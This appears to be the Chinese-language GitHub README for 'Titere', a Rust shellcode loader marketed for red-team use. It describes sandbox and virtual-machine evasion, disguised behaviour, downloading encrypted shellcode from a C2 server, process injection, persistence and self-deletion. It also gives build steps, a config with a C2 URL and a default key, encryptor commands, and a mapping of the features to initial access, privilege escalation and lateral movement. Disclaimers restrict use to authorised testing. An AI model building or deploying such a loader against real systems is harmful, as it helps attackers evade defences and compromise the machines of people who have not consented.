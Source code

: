 # Titere - 高级Shellcode加载器

一个集成了多种高级反检测技术的 Rust Shellcode 加载器，专为红队渗透测试设计。

## 🎯 核心功能

### 主程序 (src/main.rs) - Shellcode加载器
- **沙箱对抗**：运行时间检测、用户交互检测、环境特征检测、进程检测、资源检测、虚拟机检测
- **行为伪装**：延迟执行、正常文件访问、多态垃圾代码、假解密操作
- **Shellcode加载**：远程下载、AES-GCM/XOR解密、多种进程注入技术
- **自清理**：执行后自删除、痕迹清理
- **持久化**：支持启动项持久化
- **配置系统**：通过config.toml灵活配置所有功能

### 加密工具 (encrypt_project/src/main.rs) - Shellcode加密器
- **Shellcode处理**：自动检测.bin文件或指定输入文件
- **多种加密**：支持AES-GCM和XOR加密
- **命令行界面**：灵活的参数配置

## 🛠️ 技术架构

### Shellcode加载流程
1. **配置加载** - 从config.toml加载配置参数
2. **沙箱检测** - 确保在真实环境中执行
3. **持久化创建** - 根据配置决定是否创建持久化
4. **行为伪装** - 混淆真实意图
5. **远程获取Shellcode** - 从C2服务器下载加密数据
6. **解密Shellcode** - 使用AES-GCM或XOR解密
7. **进程注入执行** - 使用多种技术注入目标进程并执行
8. **自清理** - 根据配置决定是否自删除

### 沙箱检测技术
- 系统运行时间检测（可配置阈值）
- 用户交互检测（可配置阈值）
- 环境特征检测（用户名、主机名）
- 沙箱进程检测（扩展的进程列表）
- 系统资源检测（内存、磁盘空间、CPU核心数）
- 虚拟机注册表检测

### 进程注入技术
- 标准CreateRemoteThread注入
- 分段写入内存注入
- 垃圾数据覆盖注入

## 🚀 快速开始

### 环境要求
- Windows 操作系统
- Rust 开发环境

### 编译安装
```bash
# 克隆项目
git clone https://github.com/9Insomnie/TitereV1.0.git
cd Titere

# 编译主程序
cargo build --release

# 编译加密工具
cd encrypt_project
cargo build --release
```

### 配置文件
项目根目录下的`config.toml`文件用于配置程序行为：

```toml
# 服务器配置
[server]
url = "https://example.com/payload"  # C2服务器URL
timeout = 30                        # 连接超时（秒）
retries = 3                         # 重试次数

# 加密配置
[encryption]
key = "1A2B3C4D5E6F7A8B"           # 加密密钥
algorithm = "aes-gcm"               # 加密算法: "aes-gcm" 或 "xor"

# 沙箱检测配置
[sandbox_detection]
enabled = true                      # 是否启用沙箱检测
# 其他沙箱检测相关配置...
```

### 加密工具使用

```bash
# 基本用法
./encrypt_project -i shellcode.bin -o output.bin -k 自定义密钥 -a aes-gcm

# 参数说明
-i, --input    输入文件路径
-o, --output   输出文件路径（默认：output.bin）
-k, --key      加密密钥（默认：1A2B3C4D5E6F7A8B）
-a, --algorithm 加密算法：aes-gcm 或 xor（默认：aes-gcm）
```

## ⚠️ 免责声明

本工具仅用于授权的安全测试和教育目的。使用本工具进行未授权的测试或攻击行为是违法的。使用者需要对自己的行为负全部责任。开发者不对任何滥用或非法使用本工具的行为负责。

### 使用方法

#### Shellcode加载器
```bash
# 直接运行
cargo run

# 或运行编译后的可执行文件
./target/release/loader.exe
```

#### Shellcode加密器
```bash
cd encrypt_project
cargo run
```

## 🔧 配置说明

### C2服务器配置
修改 `src/main.rs` 中的C2服务器地址：
```rust
let url = "http://your-c2-server.com:port/output.bin";
```

### 加密密钥
默认XOR密钥：`[0x1A, 0x2B, 0x3C, 0x4D, 0x5E, 0x6F, 0x7A, 0x8B]`

## 🎯 红队使用场景

1. **初始访问**：绕过沙箱检测，加载初始shellcode
2. **权限提升**：注入高权限进程，执行提权shellcode
3. **横向移动**：远程代码执行，进程间shellcode传播
4. **持久化**：隐蔽shellcode加载，维持访问

## 📊 技术细节

### 多态代码技术
- 模拟数学计算
- 模拟字符串处理
- 模拟数组操作
- 模拟时间获取

### 自删除技术
- 延迟3秒后删除自身文件
- 使用cmd命令执行删除操作

## ⚠️ 重要声明

**本工具仅用于授权的红队渗透测试。使用者必须获得目标系统的明确授权，并遵守相关法律法规。作者不承担任何因非法使用而产生的法律责任。**

## 📞 联系方式

- GitHub Issues: [@9Insomnie](https://github.com/9Insomnie)
- 个人主页: [9Insomnie](https://github.com/9Insomnie)

---

**⚠️ 再次提醒：请确保在授权环境中使用本工具，遵守相关法律法规。**

